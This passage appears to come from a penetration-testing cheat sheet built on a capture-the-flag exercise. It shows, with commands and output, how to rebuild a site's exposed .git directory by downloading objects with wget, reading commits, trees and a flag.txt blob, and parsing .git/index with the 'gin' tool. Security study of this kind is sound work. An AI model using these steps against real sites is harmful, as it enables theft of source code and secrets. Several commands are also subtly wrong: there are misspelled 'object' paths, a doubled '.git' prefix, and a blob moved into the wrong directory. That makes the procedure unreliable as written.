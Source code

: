    ```powershell
   # create an empty .git repository
   git init test
   cd test/.git

   # download the file
   wget http://web.site/.git/objects/26/e35470d38c4d6815bc4426a862d5399f04865c

   # first byte for subdirectory, remaining bytes for filename
   mkdir .git/object/26
   mv e35470d38c4d6815bc4426a862d5399f04865c .git/objects/26/

   # display the file
   git cat-file -p 26e35470d38c4d6815bc4426a862d5399f04865c
       tree 323240a3983045cdc0dec2e88c1358e7998f2e39
       parent 15ca375e54f056a576905b41a417b413c57df6eb
       author Michael <michael@easyctf.com> 1489390329 +0000
       committer Michael <michael@easyctf.com> 1489390329 +0000
       Initial.
   ```

4. Access the tree 323240a3983045cdc0dec2e88c1358e7998f2e39

   ```powershell
   wget http://web.site/.git/objects/32/3240a3983045cdc0dec2e88c1358e7998f2e39
   mkdir .git/object/32
   mv 3240a3983045cdc0dec2e88c1358e7998f2e39 .git/objects/32/

   git cat-file -p 323240a3983045cdc0dec2e88c1358e7998f2e39
       040000 tree bd083286051cd869ee6485a3046b9935fbd127c0        css
       100644 blob cb6139863967a752f3402b3975e97a84d152fd8f        flag.txt
       040000 tree 14032aabd85b43a058cfc7025dd4fa9dd325ea97        fonts
       100644 blob a7f8a24096d81887483b5f0fa21251a7eefd0db1        index.html
       040000 tree 5df8b56e2ffd07b050d6b6913c72aec44c8f39d8        js
   ```

5. Read the data (flag.txt)
   ```powershell
   wget http://web.site/.git/objects/cb/6139863967a752f3402b3975e97a84d152fd8f
   mkdir .git/object/cb
   mv 6139863967a752f3402b3975e97a84d152fd8f .git/objects/32/
   git cat-file -p cb6139863967a752f3402b3975e97a84d152fd8f
   ```

#### Recovering file contents from .git/index

Use the git index file parser https://pypi.python.org/pypi/gin (python3).

```powershell
pip3 install gin
gin ~/git-repo/.git/index
```

Recover name and sha1 hash of every file listed in the index, and use the same process above to recover the file.
